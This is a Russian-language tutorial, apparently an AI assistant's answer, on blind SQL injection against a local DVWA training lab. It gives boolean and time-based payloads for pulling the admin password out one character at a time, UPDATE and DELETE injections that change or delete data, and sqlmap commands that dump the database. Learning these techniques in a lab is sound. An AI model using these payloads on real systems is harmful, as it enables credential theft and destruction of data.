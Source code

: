 ### ❓ Что такое **Blind SQL Injection**

**Blind SQL-инъекция** — это ситуация, когда **приложение не выводит напрямую результаты запроса**, но **поведение приложения меняется**, и ты по косвенным признакам (вроде наличия/отсутствия данных, времени ответа, редиректов и т.д.) **делаешь вывод, сработала инъекция или нет**.

---

### 🔁 Да, ты используешь *аналогичные* SQL-запросы — но…

* ✅ Ты **всё ещё можешь читать, писать, удалять данные**
* ❌ Но **не видишь сразу результат** — нужно **угадывать** по реакции сервера

---

### 📌 Примеры Blind SQLi

#### 🔍 1. **Classic Blind (True/False)**

**URL:**

```
http://localhost:8081/vulnerabilities/sqli_blind/?id=1' AND 1=1-- 
http://localhost:8081/vulnerabilities/sqli_blind/?id=1' AND 1=2-- 
```

**Поведение:**

* 1=1 → отобразится корректный пользователь
* 1=2 → ничего не покажет

#### 📖 2. **Извлечение символов (например, пароля)**

**Пример:**

```sql
1' AND SUBSTRING((SELECT password FROM users WHERE user='admin'), 1, 1) = '5'-- 
```

Ты подбираешь по одному символу, наблюдая поведение страницы.

---

### ⏱️ 3. **Time-Based Blind (время)**

**Если ошибки и вывод подавлены**, можно использовать `SLEEP()`:

```sql
1' AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='5', SLEEP(5), 0)-- 
```

**Если страница "зависает" на 5 секунд → ты угадал символ.**

---

### ✅ Да, можно **вносить и изменять** данные:

#### 🔨 Изменение данных (если разрешено):

```sql
1'; UPDATE users SET password='hacked' WHERE user='admin'-- 
```

#### 💣 Удаление:

```sql
1'; DELETE FROM users WHERE user='guest'-- 
```

> Но это уже **active exploitation** — такие запросы лучше тестировать на копии.

---

### 📌 Отличие от обычной SQLi

| Тип              | Есть вывод? | Можно изменять данные? | Сложность  |
| ---------------- | ----------- | ---------------------- | ---------- |
| Обычная SQLi     | ✅ Да        | ✅ Да                   | 🔓 Низкая  |
| Blind SQLi       | ❌ Нет       | ✅ Да                   | ⚠️ Средняя |
| Time-based Blind | ❌ Нет       | ✅ Да                   | ⏱️ Высокая |

---

### 🧠 Советы

* Используй **Burp Suite Intruder** для автоматического подбора символов
* Можно использовать **sqlmap**:

  ```bash
  sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1' --cookie='PHPSESSID=...' --level=5 --risk=3 --technique=B
  ```
* Следи за **временем ответа** или **наличием изменений**

---

Отлично, Александр. Давай финализируем наш блок по SQL-инъекциям с тем, что ты просишь:

---

## 🧰 **Blind SQLi Toolkit (чтобы не лазить в голове)**

---

### 📁 **Wordlist для слепой SQL-инъекции** (буквы, цифры, спецсимволы)

```text
abcdefghijklmnopqrstuvwxyz
ABCDEFGHIJKLMNOPQRSTUVWXYZ
0123456789
!@#$%^&*()_+-={}[]|:;"'<>,.?/~
```

Для перебора по символам (один за другим):

```bash
cat > blind_charset.txt <<EOF
a
b
c
...
A
B
C
...
0
1
2
...
!
@
#
...
EOF
```

Можно использовать в Burp Intruder или в своей автоматизации.

---

### 📊 **Таблица угадывания пароля (пример для admin)**

| Позиция | Подбираемый символ | Запрос                                                                          | Результат |
| ------- | ------------------ | ------------------------------------------------------------------------------- | --------- |
| 1       | `'a'`              | `1' AND SUBSTRING((SELECT password FROM users WHERE user='admin'),1,1) = 'a'--` | ❌ Нет     |
| 1       | `'5'`              | `1' AND SUBSTRING((SELECT password FROM users WHERE user='admin'),1,1) = '5'--` | ✅ Да      |
| 2       | `'b'`              | `1' AND SUBSTRING((SELECT password FROM users WHERE user='admin'),2,1) = 'b'--` | ❌ Нет     |
| ...     | ...                | ...                                                                             | ...       |

Повторяется до полной длины пароля. Обычно 32 символа в MD5.

---

### ⚙️ **sqlmap: конфигурации для всех режимов**

1. **Classic SQLi (with output)**

```bash
sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit' \
--cookie="PHPSESSID=..." \
--dbs
```

2. **Blind (Boolean-based)**

```bash
sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1' \
--cookie="PHPSESSID=..." \
--level=5 --risk=3 \
--technique=B
```

3. **Time-based Blind**

```bash
sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1' \
--cookie="PHPSESSID=..." \
--level=5 --risk=3 \
--technique=T
```

4. **Дамп всех пользователей:**

```bash
sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1' \
--cookie="PHPSESSID=..." \
--dump --tables --batch
```

---

## 🛡️ Что ещё можно добавить?

Если тебе интересно, могу подготовить:

* 🧠 Методичку по **LFI/RFI** (File Inclusion)
* 📦 Разбор **Command Injection** (в т.ч. с Netcat и bash payload)
* 🦠 Сценарии эксплойта с **Reverse Shell**
* 🔒 Как построить **WAF/защиту с ModSecurity**
* 🛡️ Подробный **разбор secure-кода на PHP** для любой уязвимости

Переходим к следующей теме или сохраняем в PDF?
